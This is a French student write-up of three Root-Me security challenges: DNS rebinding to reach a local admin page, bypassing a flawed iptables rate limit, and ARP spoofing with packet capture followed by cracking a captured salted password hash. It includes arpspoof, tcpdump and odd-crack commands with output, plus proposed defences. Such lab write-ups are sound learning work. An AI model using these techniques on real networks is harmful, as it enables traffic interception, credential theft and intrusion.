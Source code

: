 # TP6 : Un peu de root-me

## I. DNS Rebinding

**🌞 Write-up de l'épreuve**

```
requete dns normale et legitime :
1) utilisateur rentre url, client envoie une requete dns pour resoudre le nom de domaine en une adresse IP
2) le client verifie sur l'ip est stocké dans le cache si elle est presente alors elle passe les etapes suivante
3) si l'ip n'est pas dans le cache, le client envoie la requete au serveur dns ( du routeur 🤷‍♂️ ) 
4) le serveur dns consulte sa db ou relaie a d'autre serveurs DNS jusqu'a trouver l'ip
5) une fois l'ip trouvé le serveur envoie la reponse 

reponse dns dns normale et legitime

dans une reponse il y a :

adresse ip associée au nom de domaine
le type d'enregistrement ( A, AAAA, MX) 
et le TTL qui indique la durée pendant laquelle la reponse est considérée valide et donc peut etre stockée dans le cache

donc le role du TTL c'est par exemple un TTL de 300s signifie que la reponse peut etre reutilisée pendant 5 minutes 

on peut mettre le TTL a une valeur tres basse, comme ça le client renvoie des requetes dns constamment et nous on peut changer le domaine pour qu'il pointe vers une ip locale par exemple

avec le site suivant : https://lock.cmpxchg8b.com/rebinder.html

on peut faire une attaque dns rebinding

d48126e0.7f000001.rbndr.us:54022/admin

et on spam le site avec des requetes dns pour que le TTL soit toujours valide et on peut acceder a l'admin
```
**🌞 Proposer une version du code qui n'est pas vulnérable**

```
faire un check sur la requete sur le ttl = 0 si c'est le cas alors on ne renvoie pas la reponse
```


## II. Netfilter erreurs courantes

**🌞 Write-up de l'épreuve**

```
Après analyse du code, on peut voir que le script iptables est mal configuré. Plus particulierement cette ligne : 
IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j DROP

donc f5 très fort ou curl répétés ou un ptit boucle for qui fait les curl

```

[Voici le script pour bypass la règle](netfilter.sh)
ou juste a faire ctrl + f5 sur la page web


```
Nicely done:)

There are probably a few things the administrator was missing when writing this ruleset:

    1) When a rule does not match, the next one is tested against

    2) When jumped in a user defined chain, if there is no match, then the
       search resumes at the next rule in the previous (calling) chain

    3) The 'limit' match is used to limit the rate at which a given rule can
       match: above this limit, 1) applies

    4) When a rule with a 'terminating' target (e.g.: ACCEPT, DROP...) matches
       a packet, then the search stops: the packet won't be tested against any
       other rules
    
The flag is: ************
```

**🌞 Proposer un jeu de règles firewall**  

```
iptables -N HTTP_LIMIT
iptables -A INPUT -p tcp --dport 80 -m conntrack --ctstate NEW -j HTTP_LIMIT
iptables -A HTTP_LIMIT -m limit --limit 3/sec --limit-burst 10 -j RETURN
iptables -A HTTP_LIMIT -j DROP
```

## III. ARP Spoofing Ecoute active

**🌞 Write-up de l'épreuve**

```
root@fac50de5d760:~#apt update && apt install nmap dsniff tcpdump build -y

root@fac50de5d760:~#arpspoof -i eth0 -t 172.18.0.4 172.18.0.2
root@fac50de5d760:~#arpspoof -i eth0 -t 172.18.0.2 172.18.0.4
root@fac50de5d760:~#tcpdump -i eth0 -n -nn not port 22 -w toto.pcap


slayz@debian:~$ odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:2d0b063e696a68582529680c402a21776f777862 Téléchargements/rockyou.txt 0907f80d40a6fa807c59dece79af83f7d988b141
[*] loading file...
[*] found heyheyhey=0907f80d40a6fa807c59dece79af83f7d988b141
[*] all hashes found, shutdown requested
[*] done, tried 4700 passwords

```
[Voir la capture Wireshark](TP6/toto.pcap)

**🌞 Proposer une configuration pour empêcher votre attaque**

```
chiffrer les données 
Segmenter le reseau en VLAN
```

```
update la base de données mysql changé de type d'authentification
```